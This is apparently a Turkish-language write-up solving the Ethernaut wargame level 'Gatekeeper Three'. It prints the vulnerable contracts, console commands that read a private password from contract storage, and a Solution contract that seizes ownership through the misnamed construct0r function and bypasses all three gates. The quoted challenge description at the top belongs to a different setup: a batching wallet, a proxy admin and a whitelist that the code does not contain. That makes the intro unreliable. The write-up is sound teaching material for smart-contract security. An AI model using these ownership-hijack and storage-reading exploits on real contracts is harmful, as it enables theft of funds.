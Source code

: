 
# ETHERNAUT SORU 28: GATEKEEPER THREE

>Nowadays, paying for DeFi operations is impossible, fact.
>
>A group of friends discovered how to slightly decrease the cost of performing multiple transactions by batching them in one transaction, so they developed a smart contract for doing this.
>
>They needed this contract to be upgradeable in case the code contained a bug, and they also wanted to prevent people from outside the group from using it. To do so, they voted and assigned two people with special roles in the system: The admin, which has the power of updating the logic of the smart contract. The owner, which controls the whitelist of addresses allowed to use the contract. The contracts were deployed, and the group was whitelisted. Everyone cheered for their accomplishments against evil miners.
>
>Little did they know, their lunch money was at risk…
>
>You'll need to hijack this wallet to become the admin of the proxy.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract SimpleTrick {
    GatekeeperThree public target;
    address public trick;
    uint256 private password = block.timestamp;

    constructor(address payable _target) {
        target = GatekeeperThree(_target);
    }

    function checkPassword(uint256 _password) public returns (bool) {
        if (_password == password) {
            return true;
        }
        password = block.timestamp;
        return false;
    }

    function trickInit() public {
        trick = address(this);
    }

    function trickyTrick() public {
        if (address(this) == msg.sender && address(this) != trick) {
            target.getAllowance(password);
        }
    }
}

contract GatekeeperThree {
    address public owner;
    address public entrant;
    bool public allowEntrance;

    SimpleTrick public trick;

    function construct0r() public {
        owner = msg.sender;
    }

    modifier gateOne() {
        require(msg.sender == owner);
        require(tx.origin != owner);
        _;
    }

    modifier gateTwo() {
        require(allowEntrance == true);
        _;
    }

    modifier gateThree() {
        if (address(this).balance > 0.001 ether && payable(owner).send(0.001 ether) == false) {
            _;
        }
    }

    function getAllowance(uint256 _password) public {
        if (trick.checkPassword(_password)) {
            allowEntrance = true;
        }
    }

    function createTrick() public {
        trick = new SimpleTrick(payable(address(this)));
        trick.trickInit();
    }

    function enter() public gateOne gateTwo gateThree {
        entrant = tx.origin;
    }

    receive() external payable {}
}
```

Bu soruda geçmeniz gereken üç farklı kapı vardır.
1. Kapıyı geçmek için:
	* Kontraktın sahibi (owner) olmalısınız.
	* Transaction owner tarafından başlatılmamalı.
2. Kapıyı geçmek için:
	* SimpleTrick adı verilen kontrakt için doğru şifreyi bulmalısınız.
3. Kapıyı geçmek için:
	* Kapı (gate) kontraktında 0.001'den fazla ether bulunmalı.
	* Çağıran adres gönderilen etherleri kabul etmemeli.

Bu  soruyu çözmek için önce gate kontraktındaki `createTrick` fonksiyonunu çağırmamız gereklidir:
```javascript
> await contract.createTrick()

> let trick_addr = await contract.trick()
// '0xD4Fb426cB28AE9B79322e1AC72Ee1f969C2CCBbf'
```
Sonrasında bulduğumuz trick kontraktının depolamasındaki (storage) 2. indise bakarak `password` değişkeninin değerini elde edebiliriz:
```javascript
> await web3.eth.getStorageAt(trick_addr, 2)
// 0x00000000000000000000000000000000000000000000000000000000664dd9e4'
```
Sorunun geri kalanını çözmek için bu üç kapıyı çözen bir `Solution` kontraktı yazacağız.
### 1. Kapı
 Bu kapıyı geçmek için Gatekeeper kontraktının sahibi olmalıyız (`owner` değişkeni yazacağımız çözüm kontraktının adresi olmalı). Bunun için kontraktta bulunan hatalı yazılmış `construct0r` fonksiyonunu çağırmamız yeterlidir. Bu kapı aynı zamanda transaction'ın owner tarafından başlatılmadığını kontrol etmektedir. Ancak transaction'u biz (EOA) başlatacağımız için ve owner yazacağımız çözüm kontraktı olacağından bu kontrol bizim için sorun teşkil etmemektedir.
### 2. Kapı
İkinci kapıyı geçmek için JavaScript konsolu yardımıyla aldığımız şifreyi göndermek yeterlidir.
### 3. Kapı
Bu kapıyı geçmek için Gatekeeper kontraktında 0.001 ether'den fazla bulunmalı. Bunun için yazacağımız çözüm kontraktının `constructor` fonksiyonunu `payable` yapıp EOA'dan gönderdiğimiz 0.002 ether'i doğrudan Gatekeeper'a iletmemiz yeterlidir. Bu kapının başka bir koşulu yazacağımız çözüm kontraktının gönderilecek herhangi ether'i kabul etmemesidir (kontraktınıza gelen ether'i kabul etmezseniz `send` fonksiyonu `false` döndürür). Bunun için ise çözüm kontraktımıza `receive` fonksiyonunu eklemeyeceğiz ve `constructor` dışında hiçbir fonksiyonu `payable` yapmayacağız.

Aşağıda yer alan Solidity kodundaki `Solution` kontraktı yukarıda bahsettiğimiz şekilde bu üç kapıyı çözmektedir.

```solidity
contract Solution {
	SimpleTrick trick;
	GatekeeperThree gate;

	constructor(address trick_addr,  address  payable gate_addr)  payable  {
		trick = SimpleTrick(trick_addr);
		gate = GatekeeperThree(gate_addr);
		gate_addr.transfer(msg.value);
	}

	function solve()  public  {
		require(trick.checkPassword(0x664dd9e4), "Password failed.");  // check password
		gate.getAllowance(0x664dd9e4);  // submit password
		gate.construct0r(); // gain ownership
		require(gate.owner()  ==  address(this), "Failed ownership.");
		gate.enter();
	}
}
```
